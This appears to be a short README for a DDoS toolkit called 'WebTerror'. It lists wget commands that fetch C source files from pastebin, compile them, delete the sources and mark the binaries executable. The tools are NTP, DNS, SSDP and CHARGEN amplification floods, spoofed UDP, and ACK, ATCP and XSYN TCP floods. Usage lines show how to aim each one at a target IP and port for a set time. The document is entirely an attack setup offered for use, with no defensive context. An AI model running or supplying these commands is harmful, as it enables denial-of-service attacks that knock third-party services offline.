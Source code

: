 # WebTerror

### SSDP

wget http://pastebin.com/raw/fcyCGWqw -O ntp.c; gcc ntp.c -pthread -o ntp; rm -rf ntp.c; chmod +x ntp   
wget http://pastebin.com/raw/2Hn2EejR -O dns.c; gcc dns.c -pthread -o dns; rm -rf dns.c; chmod +x dns   
wget http://pastebin.com/raw/vpbXuKVA -O ssdp.c; gcc ssdp.c -pthread -o ssdp; rm -rf ssdp.c; chmod +x ssdp   
wget http://pastebin.com/raw/Kktvq2pz -O chargen.c; gcc chargen.c -pthread -o chargen; rm -rf chargen.c; chmod +x chargen   
wget http://pastebin.com/raw/x2eanwSi -O sudp.c; gcc sudp.c -pthread -o sudp; rm -rf sudp.c; chmod +x sudp   
wget http://pastebin.com/raw/2R8URser -O ack.c; gcc ack.c -pthread -o ack; rm -rf ack.c; chmod +x ack   
wget http://pastebin.com/raw/4FL9kAxx -O atcp.c; gcc atcp.c -pthread -o atcp; rm -rf atcp.c; chmod +x atcp   
wget http://pastebin.com/raw/2CfHqZj9 -O xsyn.c; gcc xsyn.c -pthread -o xsyn; rm -rf xsyn.c; chmod +x xsyn   

UDP

NTP   
./ntp IP PORT NTPAMP.txt 8 -1 TIME   
DNS   
./dns IP PORT DNSAMP.txt 8 -1 TIME   
SSDP   
./ssdp IP PORT SSDPAMP.txt 8 -1 TIME   
CHARGEN   
./chargen IP PORT CHARGENAMP.txt 8 -1 TIME   
Spoofed UDP / SUDP   
./sudp IP PORT 8 -1 TIME   
   
TCP   

ACK   
./ack IP PORT 8 -1 TIME   
ATCP   
./atcp IP 8 -1 TIME   
XSYN   
./xsyn IP PORT 8 -1 TIME   
